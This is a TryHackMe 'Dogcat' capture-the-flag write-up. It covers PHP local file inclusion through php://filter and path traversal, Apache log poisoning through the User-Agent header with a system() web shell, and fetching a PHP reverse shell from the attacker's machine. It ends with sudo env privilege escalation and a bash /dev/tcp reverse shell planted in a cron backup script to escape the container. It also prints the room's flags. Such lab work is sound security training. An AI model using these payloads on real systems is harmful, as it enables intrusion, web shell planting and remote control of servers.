








# Tryhackme : Dogcat


## Initial Recon

At first it wasn't giving any kind of output. So it was blocking ping requests. 

```
sudo nmap -Pn 10.10.110.36 > rec_ini
```



On trying to access the IP address directly it wasn't accessing the web page. </br>
The scan results show that the port 80 is filtered. </br>

But upon accessing `http://10.10.110.36/index.php` it gives the page.



For viewing the pictures the client sends requests in the form of `http://10.10.110.36/?view=dog`
for dog pics.

1) If we send any other words than dog or cat, it gives an error saying only dogs and cats are allowed. </br>
2) On adding any other character to the request parameter, like `/?view=dog'` or anything else,it gives an error :

```
Warning: include(dog'.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog'.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

It seems that it includes the dog.php or cat.php file using the `include()` function in php</br>

3) Possibility of command injection or path traversal using the `include()` function.</br>

https://www.acunetix.com/websitesecurity/php-security-2/

4) To bypass the safeguards, we can use php wrapper.</br>
https://null-byte.wonderhowto.com/how-to/beat-lfi-restrictions-with-advanced-techniques-0198048/</br>

5) We use the following for this : 

```
php://filter/read=convert.base64-encode/resource=./dog/../index
```


We can take the base64 encoded form and paste it into a file. Then we can use that file to base64 decode the string to get the index.php

```
cat index | base64 -d > index.php
```



```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

In the index.php : 

1) First check if the `ext` parameter is given</br>
2) If not given then the script appends the .php extension automatically.</br>
3) If given then the extension is not given</br>

The flag1 can be obtained using the php wrapper : 

```
http://10.10.155.124/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
```

```
kali@kali:~/dogcat$ echo PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo= | base64 -d
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

It seems that the flag file is in php format.

## Getting Code Execution

We can view other files like `/etc/passwd` just by adding the `ext` parameter

```
http://10.10.155.124/?view=./dog/../../../../../../../etc/passwd&ext
```

We can get the log files also : 

```
http://10.10.155.124/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=
```

This will give us the access.log of the apache2 server.



The User-Agent is not url-encoded(unlike other parameter) when a new request is made. Therefore, we can use it for grabbing a reverse shell from our box.

But before that get a php reverse shell and set the ip and port according to your machine.

Start a http server on port 80

```
sudo python3 -m http.server
```

Then use `php` tags to use the function `file_put_contents()` in the User-Agent field.</br>

In place of User-Agent write : 

```
<?php file_put_contents('shell.php',file_get_contents('http://10.9.84.8/shell.php'))?>
```

If there is not syntax error then reload the log page, it will grab the `shell.php` from your server.

Upon visiting `http://IP/shell.php` will give you a shell on netcat listener.


## Privilege Escalation


If we check `sudo -l` we will see that the user can execute /bin/env as sudo:



Upon checking GTFObins we check for `env`

```
sudo env /bin/sh
```

Running this on the box will give us root shell : 



Get flag3.txt in /root folder. </br>
Upon running `find / | grep flag` we find flag2.txt. : 

```
/var/www/flag2_QMW7JvaY2LvK.txt
```

The last flag couldn't be found in the standard format. </br>
Try linpeas.sh


## Getting out of container

If we check the `/opt/backups/backup.sh` script, we see that it creates backups outside the container, in /root/container. If we change the backup.sh, we can get us a reverse shell.


```
echo "#!/bin/bash" > backup.sh

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.9.84.8/1331 0>&1'" >> backup.sh
```

Since this script is executed using a cron-job, we will get a shell after sometime




# Extra Notes


To get proper code execution on this box, upload a parameter `cmd` using the php tags:

```
curl "http://$IP_TARGET/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

This will add a `cmd` parameter to the log_file and we can directly execute code using that.





Here we can see the execution of the command `ls`. </br>
Since, the box doesn't have wget, we can use curl to get our php reverse shell on the box.

Visit `10.10.196.254/?view=dog/../../../../../../var/log/apache2/access.log&ext&cmd=curl -O http://10.9.84.8/shell.php`  from the browser with your http server running in order to get the reverse shell onto the box.</br>
If we check the `pwd` we see that we are in the `/var/www/html` directory. Therefor we can directly access the reverse shell.</br>
